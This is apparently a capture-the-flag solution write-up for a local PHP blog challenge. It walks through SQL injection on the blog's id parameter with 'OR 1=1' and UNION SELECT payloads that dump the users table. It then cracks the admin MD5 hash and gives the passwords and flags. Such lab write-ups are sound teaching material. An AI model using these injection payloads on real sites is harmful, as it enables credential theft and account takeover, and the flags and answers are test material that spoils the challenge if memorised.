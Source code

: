 # Solution 

## TLDR; 
- SQLi on id for blog post 
- Dumps creds (md5 hash) 
- Crack one of the hashes to login 
- Flag 

## Thorough View 
- There are four pages (three visible to the viewer): 
    - home
    - blog
    - login 
    - admin (hidden) 
- The blog post also has a subview in order to look at an individual blog post.   
- The website has SQL in order to store credentials and blog posts 
- The creds are in the *users* table and the blog posts are in the *blog* table. 

### SQLi
This view has the following URL: http://something.com/blog.php?id=#  
The query looks like the following: 
``` 
$query = "select id, title, author, content FROM blog WHERE id = " . $id . " ORDER BY id DESC;"; 
```
SQL is a query language that allows for data to be pulled from a database. 
Because the id parameter is just being concatented with the rest of the string, this is vulnerable to **SQL Injection**.  
What does this actually do? Let's view the query: 
- `select id, title, author, content FROM blog WHERE id = #  ORDER BY id DESC;";`
- All this query really does is pull all content from the database where the *id* matches a specific value. 
  
SQLi: 
- The query itself can be **altered** by editing adding additional content to the id parameter. 
- For instance, let's use an *id* of `1 OR 1=1`.
    - `select id, title, author, content FROM blog WHERE id = 1 OR 1=1  ORDER BY id DESC;";`
- Look at that; we've altered the query itself! That's pretty sick! But what can we do with that? 

### Flag #1 - Basic SQLi
- The second SQLi example eabove is the perfect example for this. We simply want to grab ALL the posts in the database. Currently, we can only see three at a time. 
- By using an ID of ``1 OR 1=1`` we are saying 'hey, bring in all of the posts!'.
- Since one of the hidden posts has a flag, we now see the flag!
- ``http://localhost:8080/blog.php?id=1 OR 1=1`` is the URL to get the flag. 
- SC3{Come_out_all_ye_people_for_injections}

### UNION Operator 
The main goal of the challenge is to get into the admin panel.  
If we have the ability to siphon arbitrary data out of the database (because we control the query) we can steal data from the *users* table.   
How is this done?: 
- We cannot go back from the original query. So, we want to ADD content to the current query. 
    - A way to continue a query is with the *UNION* (https://www.w3schools.com/sql/sql_union.asp) clause. 
- Now, let's create a query that uses a UNION. 
- For example, let's get the following data: 1,1,1,1: 
    - The *id* of `1 UNION select 1,1,1,1; -- `
    - This translates to the following query: 
        - select id, title, author, content FROM blog WHERE id = 1 UNION select 1,1,1,1; -- ORDER BY id DESC;";`
    - This returns the data 1,1,1,1 (via the select clause ). Then, the `--` is a comment, cancelling the rest of the query. 
    - Why just four 1's: 
        - The query returns FOUR fields. 
        - A UNION operator has to have the same number of fields to return in both the queries. 

### Data Exfiltration 
From the section above, we now know how to run multiple queries. So, let's take out the data!  
The table (with the user information) has the following fields: 
- id 
- username 
- password (which is an md5 hash) 

A NORMAL query to get this would look like the following: 
- `select id, username, password FROM users`.

To get this to work properly (with the right number of return statements), we'll need to use an extra value in the *select* clause. 
- `select 1, id, username, password FROM users`

**NOTE**: 
- The FIRST item (in the query) is NOT used because it is an ID (in the actual PHP code that displays the data). 
- So, notice that the username, password are at the end in order to get the data to display properly.  

Now, wrapping this all together, we have the following id value: 
- `3 UNION select 1, username, password,1 FROM users; --`

This results in the following query that returns all data from the users table: 
```
select id, title, author, content FROM blog WHERE id = 3 UNION select 1, username, password,1 FROM users; -- ORDER BY id DESC;
```
- The full URL looks like this: 
	- http://localhost:8080/blog.php?id=0%20UNION%20select%201,%20username,%20password,1%20FROM%20users;%20--
- For points for the flag, use the admin hash to get another flag: 
	- Hash for 'admin' 5a2207692843e047f337502c63c318dd


### Getting the Password 
- Well crap... these aren't passwords! They are hashed passwords.  
- Hashing is used so that (in the event of a data breach) username and passwords cannot instantly be used. For more on hash functions, visit https://en.wikipedia.org/wiki/Hash_function....  
- These are just md5 hashs. Put one of the hashes into a site like https://crackstation.net/ will get the password very quickly (md5 is a very weak hashing algorithm).   

Just in case though: 
- admin: almostthere 
- hashing: hashing

- Now, go to login page and use the username and password to login! :)   
- Your flag will be waiting for you on the admin panel!
-  SC3{SQLi_t0_site_compromise!}


    



